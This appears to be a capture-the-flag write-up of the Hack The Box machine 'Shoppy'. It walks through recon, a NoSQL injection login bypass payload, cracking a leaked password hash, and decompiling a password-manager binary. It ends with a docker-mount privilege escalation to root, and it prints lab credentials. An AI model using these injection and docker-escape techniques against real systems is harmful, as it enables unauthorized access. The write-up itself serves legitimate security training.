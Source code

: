 # Shoppy

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption><p>nice box tbh</p></figcaption></figure>



## Recon

### nmap scan

```bash
└─➜ cat ports.scan                                                                                                                                                                        [0]
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-04 17:39 IST
Stats: 0:00:19 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.30% done; ETC: 17:40 (0:00:00 remaining)
Stats: 0:00:32 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 93.75% done; ETC: 17:40 (0:00:00 remaining)
Nmap scan report for shoppy.htb (10.129.227.233)
Host is up (0.42s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title:             Shoppy Wait Page
|_http-server-header: nginx/1.23.1
9093/tcp open        copycat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.29 seconds
```



### directory scanning

* I found few directories `/admin` & `/login` were intresting&#x20;
* `/admin` was redirecting to `/login`

### subdomain scan

```bash
ffuf -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" \
-w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt  \
-fs 169    
```

* found `mattermost`
* Adding `mattermost.shoppy.htb` in `/etc/hosts`

## Initial FootHold

### Web attack

* Mattermost index page had login page, tried sqli, didnt' work.
* Tried nosqli paylaod, worked!!

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

* payload :&#x20;

```javascript
{
    "username": "admin' || 'a'=='a",
    "password": "password"
}
```

* Read similar payloads from hacktricks

{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

#### Admin access (shoppy.htb)

* After getting admin, we can see a feature called `search-users`
* i tried with same payload eariler, and it worked ( `admin' || 'a'=='a` )

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

* the admin has wasn't crackable
* password for josh was `remembermethisway`

#### Login josh on subdomain

* After login, we can see some private/public chats
* upon visiting [http://mattermost.shoppy.htb/shoppy/channels/deploy-machine](http://mattermost.shoppy.htb/shoppy/channels/deploy-machine), we can ssh creds for user jaeger



## User shell (jaeger)

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption><p>Sh0ppyBest@pp!</p></figcaption></figure>

### Decompilng Binary&#x20;

```bash
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger:
Sorry, try again.
[sudo] password for jaeger:
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
jaeger@shoppy:~$

```

* we can run password-manager as deploy

#### Decompiling the binary with ghidra

* main function

```cpp
bool main(void)

{
  int iVar1;
  basic_ostream *pbVar2;
  basic_string<> local_68 [32];
  basic_string local_48 [47];
  allocator<char> local_19 [9];
  
  pbVar2 = std::operator<<((basic_ostream *)std::cout,"Welcome to Josh password manager!");
  std::basic_ostream<>::operator<<((basic_ostream<> *)pbVar2,std::endl<>);
  std::operator<<((basic_ostream *)std::cout,"Please enter your master password: ");
  std::__cxx11::basic_string<>::basic_string();
                    /* try { // try from 00101263 to 00101267 has its CatchHandler @ 001013cb */
  std::operator>>((basic_istream *)std::cin,local_48);
  std::allocator<char>::allocator();
                    /* try { // try from 00101286 to 0010128a has its CatchHandler @ 001013a9 */
  std::__cxx11::basic_string<>::basic_string((char *)local_68,(allocator *)&DAT_0010205c);
  std::allocator<char>::~allocator(local_19);
                    /* try { // try from 001012a5 to 00101387 has its CatchHandler @ 001013ba */
  std::__cxx11::basic_string<>::operator+=(local_68,"S");
  std::__cxx11::basic_string<>::operator+=(local_68,"a");
  std::__cxx11::basic_string<>::operator+=(local_68,"m");
  std::__cxx11::basic_string<>::operator+=(local_68,"p");
  std::__cxx11::basic_string<>::operator+=(local_68,"l");
  std::__cxx11::basic_string<>::operator+=(local_68,"e");
  iVar1 = std::__cxx11::basic_string<>::compare(local_48);
  if (iVar1 != 0) {
    pbVar2 = std::operator<<((basic_ostream *)std::cout,
                             "Access denied! This incident will be reported !");
    std::basic_ostream<>::operator<<((basic_ostream<> *)pbVar2,std::endl<>);
  }
  else {
    pbVar2 = std::operator<<((basic_ostream *)std::cout,"Access granted! Here is creds !");
    std::basic_ostream<>::operator<<((basic_ostream<> *)pbVar2,std::endl<>);
    system("cat /home/deploy/creds.txt");
  }
  
  <<snipped>>
```

* it's checking the input with word `Sample`

```cpp
iVar1 = std::__cxx11::basic_string<>::compare(local_48);
  if (iVar1 != 0) {
    pbVar2 = std::operator<<((basic_ostream *)std::cout,
                             "Access denied! This incident will be reported !");
    std::basic_ostream<>::operator<<((basic_ostream<> *)pbVar2,std::endl<>);
```

* if it's satisfied we can read creds.txt file



### Priv Esc (jaeger -> deploy)

```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```



## Root Shell

* we had a docker image , searching docker on GTFObins, we get a payload.
* Using that payload get us root shell

```bash
deploy@shoppy:~$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED         SIZE
alpine       latest    d7d3d98c851f   17 months ago   5.53MB

deploy@shoppy:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# cat /root/root.txt
b9402724d139<<snipped>>
#
```
